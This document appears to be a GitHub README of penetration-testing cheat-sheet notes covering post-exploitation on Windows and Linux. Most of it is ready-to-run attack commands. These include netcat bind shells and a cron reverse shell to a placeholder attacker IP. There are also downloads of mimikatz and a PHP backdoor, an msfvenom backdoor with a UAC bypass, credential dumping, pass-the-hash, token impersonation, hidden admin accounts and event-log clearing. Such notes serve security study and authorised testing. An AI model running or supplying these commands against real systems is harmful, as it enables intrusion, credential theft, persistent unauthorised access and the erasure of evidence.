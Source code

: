 # General

<details>
<summary>Bind shell</summary>

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.
- Windows (target)
  - `nc -nvlp <PORT> -e cmd.exe` or `nc.exe -nvlp <PORT> -e cmd.exe`
- Linux (target)
  - `nc -nvlp <PORT> -e /bin/bash`
- Linux (attacker)
  - `nc -nv <IP> <PORT>`
- Windows (attacker
  - `nc.exe -nv <IP> <PORT>`

<br>
</details>

<details>
<summary>Transfer files</summary>

- Windows
  - `certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe`
- Linux
  - `wget http://<host>/backdoor.php`
- Netcat
  - `nc -nvlp 1234 > test.txt (recepient)`
  - `nc -nv <ip> <port> < test.txt (sender)`
    
</details>

<details>
<summary>Fully interactive shell</summary>

- Python
  1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` or `python -c 'import pty;pty.spawn("/bin/bash")'`
  2. Press `CTRL + Z` : to background process and get back to your host machine
  3. `stty raw -echo; fg`
  4. `export TERM=xterm`
    
</details>

<details>
<summary>Keylogger</summary>
 
- Metasploit
  - `keyscan_start` : start keylogger
  - `keyscan_dump` : print captured strokes

<br><br>
</details>

<details>
<summary>Pivoting</summary>
 
- Metasploit
  - `ipconfig` : find subnet (the host may be in other network)
  - `run autoroute -s <subnet>` : Adds routes. In this way we can access to other internal hosts. We can perform a scan from msfconsole on any devices in the subnet
    - Example:
      - `ipconfig` : IP 19.9.29.148. Netmask: 255.255.240.0
      - `run autoroute -s 10.10.0.29.0/20`
  - `run autoroute -p` : Displays active routing table.
  - auxiliary/scanner/portscan/tcp : We can perform the scan. NOTE: scanning with metasploite is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding
  - `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>` : Forward remote port to local port. In this case we want to scan the port 80 of the target 2
  - `portfwd list`
  - `nmap -sV -sC -p 1234 localhost`
  - //since target_sys_2 does not have a route back to attacker_sys, use bind_shell payload : windows/meterpreter/bind_tcp

<br><br>
</details>

# Windows

<details>
<summary>Enumeration</summary>

- System info
  - `systeminfo`
  - `whoami` : Get current user
  - `whoami /priv` : Get current user privileges. Useful for privelage escalation
  - `wmic qfe get Caption,HotFixID,InstalledOn,Description` : Get installed updates. Useful to see security patch
  - `net localgroup` : Adds, displays, or modifies local groups
  - `net localgroup <group>` : Get group membership of user -> `net localgroup administrators`
  - `net user <user>` : Get user info
- Network Info
  - `ipconfig /all`
  - `netstat -ano` : lists info on tcp/udp ports	
  - `netsh advfirewall show allprofiles` : shows f/w status
  - `arp -a` : display arp table (arp cache to discover other IP addresses on the target network)
  - `route print` : print route table (useful during the pivoting phase of post-exploitation as it can reveal network routes)
- Processes & Services 
  - `net start` : lists services running
  - `wmic service list brief` : same as above with extra details like pid  
  - `net stop <servicename>` : stop a service
  - `tasklist /svc` : list process with respecive services
  - `schtasks /query /fo list /v` : list scheduled tasks
- Automation : JAWS - https://github.com/411Hall/JAWS
  - `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`     

<br><br>
</details>

<details>
<summary>Persistence</summary>
 
- Metasploit
  - search persistence module (Windows)
  - Ex: exploit/windows/local/persistence_service
    - It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
  - You need to set a listener to receive the connection
- Enable RDP
  - with metasploit : search enable_rdp (and set session)
    - Connect to victim from attacker
      - Note: you need username and password, if you don't have the password : change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      - Note 2: you can create a new account and add it to administrator group...
  - second way with metasploit/meterpreter (auto create account and settings):
    - In meterpreter `run getgui -e -u user_you_want -p password_you_want`
      - enables rdp service --> creates new user with the provided parameters -->  hides user from windows login screen --> adds user to Remote Desktop Users and Administrators group.


<br><br>
</details>

<details>
<summary>Clearing tracks</summary>
 
- Metasploit/Meterpreter
  - `clearev` (clear the Application, System, and Security logs on a Windows system)
    
<br>
</details>

<details>
<summary>Privilege Escalation</summary>

<br>
Note: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM
<br><br>

<details>
<summary>Automation script</summary>

- https://github.com/itm4n/PrivescCheck : useful for gather information
- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"` : run from command prompt

<br><br>  
</details>

<details>
<summary>UAC Bypass</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- Prerequisites:
  1.  User must be a member of the Administrators group.
     - `net localgroup administrators`
  2. Full interactive shell with the victim (a common nc.exe shell is not enough).
     - You can use meterpreter
- Metasploit
  - search module bypassuac ...
- UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     - `ps` to show process 
     - (ex. `migrate <PID explorer.exe>`)
  3. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  5. Use exploit/multi/handler to start a listener
  6. Akagi64.exe 23 <payload_full_path>
     - **NOTE FULL PATH**
  7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs

<br><br>
</details>

<details>
<summary>Impersonate Tokens</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
- `impersonate_token <token_name>`
- You may need to migrate process to a <user> process
  - Ex. `getpid` : 2628, `ps` :
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid 2948`
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

<br><br>
</details>

<details>
<summary>Password in configuration file (Unattend.xml)</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)

<br><br>     
</details>

<details>
<summary>Credential Dumping (Mimikatz - Kiwi - Hashdump)</summary>
    
- Prerequisites: User must be a member a local Administrators.
1) Method (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `hashdump`
2) Kiwi (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `load kiwi`
   - `creds_all` Retrieve all credentials (parsed)
   - `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   - To find the clear text passwords : `lsa_dump_secrets`
     - However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3) Mimikatz
   - upload mimikatz.exe
   - `\mimkatz.exe`
   - `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   - `lsadump::sam` : NTLM hashes for all of the user accounts on the system 
   - `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

<br><br>
</details>

<details>
<summary>Pass the Hash</summary>

Useful for persinstence...
1) `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2) Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   - empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     - `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   - With `hashdump` you have the right format

<br><br>
</details>

<details>
<summary>Other</summary>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

<br><br>
</details>


</details>

# Linux

<details>
<summary>Enumeration</summary>

- System info
  - `cat /etc/issue` Print linux distro version
  - `uname -a` Print certain system information. One example : Useful for kernel privesc or to show architecture 
  - `env` Print environment variables
  - `cat /etc/issue` Contains a message or system identification to be printed before the login prompt
  - `lscpu` : for hardware info
  - `free -h` : for RAM usage
  - `df -h` : for disk usage
  - `dpkg -l` : list packages installed with version
- Enumerate Users
  - `whoami`
  - `groups <user>`
  - `useradd -m bob -s /bin/bash` : Creates a user. Useful for persistence
  - `usermod -aG root bob` : Add bob to root group. Useful for persistence
  - `lastlog` : ssh session enumerate
  - `last` : log of users logged in
- Enumerate Network
  - We want: Current IP, Internal networks, TCP/UDP services running and their respective ports, Other hosts on the network
  - `ip a`
    - Useful to discover other network
  - `cat /etc/hostname` : display hostname
  - `cat /etc/hosts` : maps IP addresses to domain
    - Useful to discover internal domain you can access
  - `cat /etc/resolv.conf` : display the domain name server
    - Many times it is the default gateway
  - Meterpreter
    - `netstat` : Display the network connections
    - `route` : View and modify the routing table
      - Note: gateway is important... it can be a DNS server, DHCP server or all in one
    - `arp -a` : Display the host ARP cache
- Processes & services
  - `ps aux | grep root` : Useful for privesc
  - `top` dynamic real-time view of a running system (like task manager)
  - `crontab -l` : display cronjob for the root user
  - `ls -al /etc/cron*` : display all file that contains cronjob
  - `cat /etc/cron*` : display the contents of all cronjob files

<br><br>
</details>

<details>
<summary>Persistence</summary>

- Metasploit
  - search persistence module (Linux)
    - Example: post/linux/manage/sshkey_persistence (needed elevated privs - This module will add an SSH key to a specified user)
- Via SSH key
  - After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH
- With cron jobs
  - Set up listener
  - `* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1' > cron` : create a cronjob (every minute time format)
  - `crontab -i cron`
  - `crontab -l` : crontab for the current user
  - NOTE: if the command doesn't work try with another one... revshell 

<br><br>
</details>

<details>
<summary>Privilege Escalation</summary>

<br>

<details>
<summary>Vulnerable program</summary>

- Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  - `ps aux`

<br><br>
</details>

<details>
<summary>Weak Permissions</summary>
  
- `find / -not -type l -perm -o+w ` : world-writable files
  - Example: maybe you can edit shadow file...

<br><br>
</details>

<details>
<summary>Sudo</summary>
  
- `sudo -l`
  - search on gtfobins how to exploit

<br><br>
</details>

<details>
<summary>Other</summary>

- `sudo -l`
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)

<br><br>
</details>

<br>
</details>

# Resource
- **juggernaut-sec.com/blog/** Windows/Linux privesc and active directory hacking
- **gtfobins.github.io** *GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems*
- **github.com/carlospolop/PEASS-ng/tree/master/linPEAS** *Linux Privilege Escalation Awesome Script*
- **github.com/DominicBreuker/pspy** *Monitor linux processes without root permissions*
- **github.com/gtworek/Priv2Admin** *Windows Privileges with Windows OS privileges*
